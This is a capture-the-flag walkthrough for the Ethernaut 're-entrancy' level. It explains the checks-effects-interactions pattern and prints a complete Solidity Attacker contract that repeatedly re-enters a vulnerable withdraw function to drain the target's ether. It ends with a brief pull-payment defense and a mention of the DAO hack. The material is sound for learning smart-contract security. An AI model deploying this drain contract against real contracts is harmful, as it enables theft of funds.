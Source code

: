 # [10. Re-entrancy](https://ethernaut.openzeppelin.com/level/0xe6BA07257a9321e755184FB2F995e0600E78c16D)

There is a pattern called [Checks - Effects - Interactions](https://fravoll.github.io/solidity-patterns/checks_effects_interactions.html) in Solidity. Basically:
    1. you **check** whether you can do something, such as checking balance
    2. you apply the **effects** of doing it on your contract, such as updating balance
    3. you do the actual **interactions** on-chain with other, such as transferring money

In this case, the function is to withdraw but the **interaction** comes before the **effect**. This means that when we receive money via withdraw, things are briefly in our control until the program goes back to the withdraw function to do the effect. When we have the control, we can call withdraw once more and the same thing will happen again and again.

When we create the instance in this game, we can see that:
    - `await getBalance(contract.address)` is 0.001 ether.
    - `await contract.balanceOf(player)` is 0.

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0; 

// Interface of the target contract
interface IReentrance {
  function donate(address _to) external payable;
  function withdraw(uint _amount) external;
}

contract Attacker {
  address public owner;
  IReentrance targetContract;
  uint targetValue = 0.001 ether;

  constructor(address payable _targetAddr) payable {
    targetContract = IReentrance(_targetAddr);
    owner = msg.sender;
  }

  // withdraw money from this contract
  function withdraw() public {
    require(msg.sender == owner, "Only the owner can withdraw."); 
    (bool sent, ) = msg.sender.call{value: address(this).balance}("");
    require(sent, "Failed to withdraw.");
  }

  // begin attack by depositing and withdrawing
  function attack() public payable {
    require(msg.value >= targetValue);
    targetContract.donate{value:msg.value}(address(this));
    targetContract.withdraw(msg.value);
    targetValue = msg.value;
  }

  receive() external payable {
    uint targetBalance = address(targetContract).balance;
    if (targetBalance >= targetValue) {
      // withdraw at most your balance at a time
      targetContract.withdraw(targetValue);
    } else if (targetBalance > 0) {
      // withdraw the remaining balance in the contract
      targetContract.withdraw(targetBalance);
    }
  }
}
```

We will donate some money to create our initial balance at the target, which will allow the `balances[msg.sender] >= _amount` to be true. Now, we can repeadetly withdraw that amount by re-entering the withdraw function. Since balance update effect happens after the transfer interaction, we will go on and on until the balance is depleted.As a defense, you could use a pull-payment approach: the user to be paid must come and withdraw their money themselves, rather than us paying to them.

_Note: This is how "The DAO" hack was executed, which resulted in the creation of Ethereum Classic._
